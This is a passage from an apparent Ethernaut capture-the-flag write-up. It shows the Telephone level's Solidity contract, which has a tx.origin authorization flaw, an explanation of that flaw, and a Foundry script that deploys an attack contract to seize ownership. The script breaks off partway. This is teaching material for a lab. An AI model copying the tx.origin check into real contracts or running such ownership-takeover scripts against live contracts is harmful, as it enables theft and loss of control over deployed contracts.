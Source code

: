```bash
$ source .env
$ forge script script/CoinFlipSolve.s.sol:CoinFlipSolve --rpc-url $RPC_URL --broadcast
```

# 4 Telephone

`Telephone.sol`

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

- Goal 

1. Claim the ownership of the Telephone contract

- Solution

1. Simply call the `changeOwner()` function from a contract.
2. If the `msg.sender` is equals to `tx.origin` which means the call was from a EOA. If its not, then the call is from a contract.
3. EOA is the address which originates any transation in the ethereum.
4. So, we have to call the `changeOwner()` from an Attack contract.

`TelephoneSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Telephone} from "../src/Telephone.sol";

contract TelephoneSolve is Script{
    Telephone public telephone = Telephone(0xbB45D0C7AC29151e0309338a63a7fFEffA348585);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Original Owner : ", telephone.owner());

        Attack attack = new Attack(telephone);
        console.log("Attack Address : ", address(attack));

        console.log("New Owner : ", telephone.owner());
        vm.stopBroadcast();
    }
}

contract Attack{
```